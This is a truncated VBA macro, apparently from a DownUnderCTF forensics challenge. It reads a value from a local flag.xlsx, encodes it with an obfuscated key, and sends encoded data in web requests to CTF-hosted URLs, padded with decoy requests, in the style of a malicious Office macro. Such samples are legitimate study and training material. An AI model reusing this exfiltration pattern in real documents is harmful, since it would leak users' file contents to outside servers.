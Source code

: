 ```vb
    Dim V As String
    Dim W As String
    Dim X As String
    Dim Y As String
    Dim Z As String
    Dim I As Long
    N = importantThing()
    K = "Yes"
    S = "Mon"
    U = forensics(K)
    V = totalyFine(U)
    D = "Ma"
    J = "https://play.duc.tf/" + V
    superThing (J)
    J = "http://flag.com/"
    superThing (J)
    G = "key"
    J = "http://play.duc.tf/"
    superThing (J)
    J = "http://en.wikipedia.org/wiki/Emu_War"
    superThing (J)
    N = importantThing()
    Path = ThisWorkbook.Path & "\flag.xlsx"
    Set wb = Workbooks.Open(Path)
    Dim valueA1 As Variant
    valueA1 = wb.Sheets(1).Range("A1").Value
    MsgBox valueA1
    wb.Close SaveChanges:=False
    F = "gic"
    N = importantThing()
    Q = "Flag: " & valueA1
    H = "Try Harder"
    U = forensics(H)
    V = totalyFine(U)
    J = "http://downunderctf.com/" + V
    superThing (J)
    W = S + G + D + F
    O = doThing(Q, W)
    M = anotherThing(O, W)
    A = something(O)
    Z = forensics(O)
    N = importantThing()
    P = "Pterodactyl"
    U = forensics(P)
    V = totalyFine(U)
    J = "http://play.duc.tf/" + V
    superThing (J)
    T = totalyFine(Z)
    MsgBox T
    J = "http://downunderctf.com/" + T
    superThing (J)
    N = importantThing()
    E = "Forensics"
    U = forensics(E)
    V = totalyFine(U)
    J = "http://play.duc.tf/" + V
    superThing (J)
    
End Sub
Public Function doThing(B As String, C As String) As String
    Dim I As Long
    Dim A As String
    For I = 1 To Len(B)
```